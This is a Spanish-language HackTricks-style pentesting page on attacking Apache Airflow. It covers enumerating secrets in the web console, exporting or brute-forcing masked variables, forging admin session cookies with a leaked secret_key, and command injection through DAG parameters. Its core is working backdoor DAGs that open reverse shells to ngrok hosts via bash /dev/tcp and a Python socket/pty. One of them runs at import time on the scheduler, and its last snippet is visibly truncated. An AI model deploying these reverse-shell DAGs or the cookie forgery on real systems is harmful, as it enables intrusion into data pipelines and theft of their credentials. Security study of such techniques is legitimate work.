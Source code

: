 # Seguridad de Apache Airflow

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) en GitHub.

</details>

## Información Básica

[**Apache Airflow**](https://airflow.apache.org) sirve como una plataforma para **orquestar y programar tuberías de datos o flujos de trabajo**. El término "orquestación" en el contexto de tuberías de datos significa el proceso de organizar, coordinar y gestionar flujos de trabajo de datos complejos que provienen de diversas fuentes. El propósito principal de estas tuberías de datos orquestadas es proporcionar conjuntos de datos procesados y consumibles. Estos conjuntos de datos son ampliamente utilizados por una variedad de aplicaciones, incluyendo, pero no limitado a herramientas de inteligencia empresarial, ciencia de datos y modelos de aprendizaje automático, todos los cuales son fundamentales para el funcionamiento de aplicaciones de big data.

Básicamente, Apache Airflow te permitirá **programar la ejecución de código cuando sucede algo** (evento, cron).

## Laboratorio Local

### Docker-Compose

Puedes utilizar el **archivo de configuración docker-compose desde** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) para lanzar un entorno completo de Apache Airflow en Docker. (Si estás en MacOS asegúrate de asignar al menos 6GB de RAM a la máquina virtual de Docker).

### Minikube

Una forma sencilla de **ejecutar Apache Airflow** es hacerlo **con minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Configuración de Airflow

Airflow podría almacenar **información sensible** en su configuración o es posible encontrar configuraciones débiles en su lugar:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## RBAC de Airflow

Antes de comenzar a atacar Airflow, debes entender **cómo funcionan los permisos**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Ataques

### Enumeración de la Consola Web

Si tienes **acceso a la consola web**, es posible que puedas acceder a alguna o a toda la siguiente información:

* **Variables** (Aquí podría almacenarse información sensible personalizada)
* **Conexiones** (Aquí podría almacenarse información sensible personalizada)
* Accede a ellas en `http://<airflow>/connection/list/`
* [**Configuración**](./#airflow-configuration) (Información sensible como la **`secret_key`** y contraseñas podrían estar almacenadas aquí)
* Lista de **usuarios y roles**
* **Código de cada DAG** (que podría contener información interesante)

### Obtener Valores de Variables

Las variables pueden almacenarse en Airflow para que los **DAGs** puedan **acceder** a sus valores. Es similar a los secretos de otras plataformas. Si tienes **suficientes permisos**, puedes acceder a ellas en la GUI en `http://<airflow>/variable/list/`.\
Por defecto, Airflow mostrará el valor de la variable en la GUI, sin embargo, según [**esto**](https://marclamberti.com/blog/variables-with-apache-airflow/), es posible establecer una **lista de variables** cuyo **valor** aparecerá como **asteriscos** en la **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Sin embargo, estos **valores** aún pueden ser **obtenidos** a través de **CLI** (necesitas tener acceso a la base de datos), ejecución de **DAG arbitrario**, **API** accediendo al punto final de variables (la API debe estar activada) ¡e incluso la GUI misma!\
Para acceder a esos valores desde la GUI, simplemente **selecciona las variables** a las que deseas acceder y **haz clic en Acciones -> Exportar**.\
Otra forma es realizar un **ataque de fuerza bruta** al **valor oculto** utilizando el **filtro de búsqueda** hasta que lo obtengas:

![](<../../.gitbook/assets/image (152).png>)

### Escalada de Privilegios

Si la configuración **`expose_config`** está establecida en **True**, desde el **rol de Usuario** y **superiores** pueden **leer** la **configuración en la web**. En esta configuración, aparece la **`secret_key`**, lo que significa que cualquier usuario con esta clave válida puede **crear su propia cookie firmada para hacerse pasar por cualquier otra cuenta de usuario**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Puerta trasera DAG (RCE en el trabajador de Airflow)

Si tienes **acceso de escritura** al lugar donde se guardan los **DAGs**, simplemente puedes **crear uno** que te enviará una **shell inversa**.\
Ten en cuenta que esta shell inversa se ejecutará dentro de un **contenedor de trabajador de Airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Puerta trasera DAG (RCE en el planificador de Airflow)

Si configuras algo para que se **ejecute en la raíz del código**, en el momento de escribir esto, será **ejecutado por el planificador** después de un par de segundos después de colocarlo dentro de la carpeta del DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Creación de DAG

Si logras **comprometer una máquina dentro del clúster de DAG**, puedes crear nuevos **scripts de DAG** en la carpeta `dags/` y serán **replicados en el resto de las máquinas** dentro del clúster de DAG.

### Inyección de Código en DAG

Cuando ejecutas un DAG desde la GUI, puedes **pasarle argumentos**.\
Por lo tanto, si el DAG no está codificado correctamente, podría ser **vulnerable a Inyección de Comandos.**\
Eso es lo que sucedió en este CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Todo lo que necesitas saber para **empezar a buscar inyecciones de comandos en DAGs** es que los **parámetros** se **acceden** con el código **`dag_run.conf.get("nombre_parametro")`**.

Además, la misma vulnerabilidad podría ocurrir con las **variables** (ten en cuenta que con suficientes privilegios podrías **controlar el valor de las variables** en la GUI). Las variables se **acceden con**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Si se utilizan, por ejemplo, dentro de un comando bash, podrías realizar una inyección de comandos.

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme en** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
